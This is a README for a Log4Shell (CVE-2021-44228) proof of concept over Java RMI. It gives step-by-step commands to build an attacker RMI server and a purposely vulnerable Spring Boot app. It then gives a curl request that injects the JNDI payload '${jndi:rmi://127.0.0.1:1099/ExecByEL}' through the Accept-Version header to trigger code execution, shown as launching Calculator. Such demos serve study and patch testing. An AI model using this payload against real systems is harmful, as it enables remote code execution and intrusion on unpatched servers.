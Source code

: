 # log4shell-rmi-poc
A Proof of Concept of the Log4j vulnerability (CVE-2021-44228) over Java-RMI
It uses Log4j 2.5.7 from spring-boot-starter-log4j2


## Requirements:

Tested with Java 8 (JDK 1.8.0_25) and Java 11 (JDK 11.0.1)

## How to run the POC

### 1. Clone the repo:
```bash
git clone https://github.com/Labout/log4shell-rmi-poc.git
```

### 2. Start the attacker RMI Server

```bash
cd Log4jshell_rmi_server

./mvnw clean package

java -jar target/Log4jshell.rmi.server-0.0.1-SNAPSHOT.jar
```

You should get something like this:

![rmi server](./rmi_server.png)


### 3. Start the vulnerable Log4j application (here a spring boot application)

In a new Terminal 

```bash
cd vulnerabel_log4j_app

./mvnw clean package

java -jar target/vulnerabel_log4j_app-0.0.1-SNAPSHOT.jar
```


### 4. Inject a vulnerable JNDI over the "Accept-version" header

```bash
curl 'http://localhost:8080/hello' --header 'Accept-Version: ${jndi:rmi://127.0.0.1:1099/ExecByEL}'
```

As you can see the the vulnerable app calls the Calculator app.

![exploit](./exploit.png)

## References 
https://www.cisecurity.org/log4j-zero-day-vulnerability-response/
<br>
https://www.lunasec.io/docs/blog/log4j-zero-day/
